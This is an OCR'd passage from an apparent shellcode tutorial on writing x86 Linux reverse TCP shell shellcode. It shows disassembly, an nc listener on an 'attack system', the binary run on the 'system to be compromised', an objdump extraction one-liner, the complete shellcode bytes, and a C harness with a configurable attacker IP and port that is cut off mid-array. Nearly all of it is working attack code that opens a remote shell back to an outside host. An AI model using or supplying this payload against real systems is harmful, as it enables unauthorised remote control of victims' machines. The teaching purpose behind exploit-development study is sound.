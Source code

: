```
0804809c <dupfd>:
 804809c:   fe c9                   dec    cl
 804809e:   b0 3f                   mov    al,0x3f
 80480a0:   cd 80                   int    0x80
 80480a2:   75 f8                   jne    804809c <dupfd>
 80480a4:   31 c0                   xor    eax,eax
 80480a6:   52                      push   edx
 80480a7:   68 6e 2f 73 68          push   0x68732f6e
 80480ac:   68 2f 2f 62 69          push   0x69622f2f
 80480b1:   89 e3                   mov    ebx,esp
 80480b3:   52                      push   edx
 80480b4:   53                      push   ebx
 80480b5:   89 e1                   mov    ecx,esp
 80480b7:   52                      push   edx
 80480b8:   89 e2                   mov    edx,esp
 80480ba:   b0 0b                   mov    al,0xb
 80480bc:   cd 80                   int    0x80
```
Test above executable using two systems (virtual or otherwise):
Open a terminal on the attack system,
```
$ nc -l -v 31337
```
the attack system will await a connection from the compromised system.

Open a terminal on the system to be compromised,
```
$ ./reversetcpbindshell
```
on the attack system a connection message should now appear, shell access is now available on the compromised system. Try typing in some commands to prove this is the case.

Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so,
```bash
$ objdump -d ./reversetcpbindshell | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-6 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\x31\xdb\xb3\x02\x68\xc0\xa8\x01\x0a\x66\x68\x7a\x69\x66\x53\xfe\xc3\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80”
```
The shellcode can be copied and pasted into a test program, similar to the one below. The #define IPADDR and PORT is to allow for the simple configuration of IP Address and Port.
```c	
#include <stdio.h>
 
/*
 ipaddr 192.168.1.10 (c0a8010a)
 port 31337 (7a69)
*/
#define IPADDR "\xc0\xa8\x01\x0a"
#define PORT "\x7a\x69"
 
unsigned char code[] =
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3"
"\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd"
"\x80\x89\xc6\xb0\x66\x31\xdb\xb3\x02\x68"
IPADDR"\x66\x68"PORT"\x66\x53\xfe\xc3"
"\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89"
"\xc3\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80"
"\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68"
```